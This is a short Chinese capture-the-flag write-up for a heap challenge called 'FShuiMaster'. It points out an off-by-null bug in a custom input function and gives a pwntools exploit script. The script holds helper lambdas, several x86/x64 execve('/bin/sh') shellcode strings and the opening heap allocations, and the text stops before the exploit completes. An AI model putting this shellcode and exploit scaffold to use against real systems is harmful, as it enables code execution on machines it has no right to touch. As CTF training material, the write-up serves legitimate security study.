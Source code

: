 ![image-20220623175136742](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220623175136742.png)

自定义了一个输入函数get_input存在offbynull，

![image-20220623175103703](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220623175103703.png)

题目有5号功能，exit(-1)

```python
# _*_ coding:utf-8 _*_
from pwn import *
# context.log_level='debug'

p = process("./FShuiMaster")
# p = remote("node4.buuoj.cn","28559")
elf = ELF("./FShuiMaster")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def add(size,con='a'):
    sla("Five: Finished!",1)
    sla("Number of words?",size)
    p.sendafter("please input U character",con)
def edit(idx,con):
    sla("Five: Finished!",2)
    sla("please input the page U want 2 change",idx)
    p.sendlineafter("Now Change U this page :",con)
def show(idx):
    sla("Five: Finished!",4)
    sla("please Input The page U want 2 scan",idx)
def dele(idx):
    sla("Five: Finished!",3)
    sla("please Input the page U want 2 tear off",idx)

heap_arr = 0x4080

sla("Please Write U Name on the Book",'e4l4')
add(0x5f8)# 0
add(0x5f8)# 1
add(0x608)# 2
add(0x5f8)# 3
add(0x618)# 4
add(0x5f8)# 5
add(0x5f8)# 6
```
